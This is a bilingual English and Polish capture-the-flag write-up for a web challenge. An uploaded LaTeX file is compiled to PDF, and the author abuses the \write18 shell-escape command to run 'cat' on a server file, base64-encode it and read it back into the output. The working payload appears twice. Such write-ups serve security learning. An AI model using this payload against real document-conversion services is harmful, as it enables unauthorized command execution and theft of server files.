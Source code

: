## TexMaker (Web, 90p)

	Description: Creating and using coperate templates is sometimes really hard. Luckily, 
	we have a webinterace for creating PDF files. Some people doubt it's secure, but I reviewed
	the whole code and did not find any flaws.

###ENG
[PL](#pl-version)

In this task we could upload latex file, which server would convert to PDF, and allow us to 
see it. As it turns out, there is a latex command, which allows us to use any system command.
Hence, we could simply print out flag (base64-encoded, since latex doesn't like special
characters):
```
\immediate\write18{cat ../flag.php | base64 > script.tex 2>&1}
\openin5=script.tex
\def\readfile{%
\read5 to\curline
\ifeof5 \let\next=\relax
\else \curline˜\\
\let\next=\readfile
\fi
\next}%
\ifeof5 Couldn't read the file!%
\else \readfile \closein5
\fi
```

###PL version

W tym zadaniu mogliśmy wysłać plik w latexu, który strona konwertowała do pdf-a, a następnie 
dawała do niego linka. Jak się okazuje, istnieje komenda latexa do wykonania dowolnego polecenia
systemowego. Korzystając z tego, wypisujemy flagę (zakodowaną base64, żeby nie zepsuć parsera):
```
\immediate\write18{cat ../flag.php | base64 > script.tex 2>&1}
\openin5=script.tex
\def\readfile{%
\read5 to\curline
\ifeof5 \let\next=\relax
\else \curline˜\\
\let\next=\readfile
\fi
\next}%
\ifeof5 Couldn't read the file!%
\else \readfile \closein5
\fi
```
